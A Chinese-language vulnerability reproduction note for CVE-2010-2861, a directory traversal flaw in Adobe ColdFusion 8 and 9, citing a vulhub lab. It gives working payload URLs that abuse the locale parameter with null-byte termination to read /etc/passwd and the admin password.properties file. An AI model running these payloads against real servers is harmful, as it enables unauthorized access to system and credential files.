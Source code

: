 （CVE-2010-2861）Adobe ColdFusion 文件读取漏洞
==============================================

一、漏洞简介
------------

Adobe ColdFusion
8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。

二、漏洞影响
------------

Adobe ColdFusion 8

Adobe ColdFusion 9

三、复现过程
------------

直接访问`http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`，即可读取文件`/etc/passwd`：

![](./resource/(CVE-2010-2861)AdobeColdFusion文件读取漏洞/media/rId24.png)

读取后台管理员密码`http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en`：

![](./resource/(CVE-2010-2861)AdobeColdFusion文件读取漏洞/media/rId25.png)

参考链接
--------

> https://vulhub.org/\#/environments/coldfusion/CVE-2010-2861/
